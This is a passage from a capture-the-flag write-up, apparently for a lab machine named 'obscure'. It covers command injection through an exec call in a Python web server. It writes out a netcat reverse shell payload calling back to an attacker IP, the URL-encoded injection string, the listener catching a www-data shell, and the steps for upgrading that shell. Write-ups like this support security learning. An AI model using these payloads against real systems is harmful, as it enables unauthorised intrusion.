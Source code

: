 By running the `ls` command in request, we get a **404** response. Is that good? Well looking at the original python code, we see that if a **404** is triggered, well that `exec` was run and the command succeeded, otherwise we would have had a **500** response.

Ok so now we can try to get a reverse shell.

```python
htmlfreindly('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.149 1231 >/tmp/f')

[...]

COPY THIS::  /index.html',os.system('rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>&1|nc%2010.10.14.149%201231%20>/tmp/f'),'

```

Before sending this through burp, we need to setup a listener. and once `nc` is listening we hit the repeat button and:

```sh
$nc -lvnp 1231
listening on [any] 1231 ...
connect to [10.10.14.149] from (UNKNOWN) [10.10.10.168] 36578
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
Voilà ! We just need to augment the shell to something decent.

```sh
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@obscure:/$

[ctrl+z]
$ stty raw -echo
$ fg [enter x2]

www-data@obscure:/$
```

With this little command we get a proper shell with tabs, arrows etc.. Let's get user!

# User

Looking at the home directory, we see that the only user is `robert` (no secure as we might have though with the email). In its directory, there are multiple files, let's check the all

```sh
www-data@obscure:/home/robert$ ls -al
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24  2019 ..
lrwxrwxrwx 1 robert robert    9 Sep 28 23:28 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3 16:02 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3 22:42 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3 16:34 .local
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
```
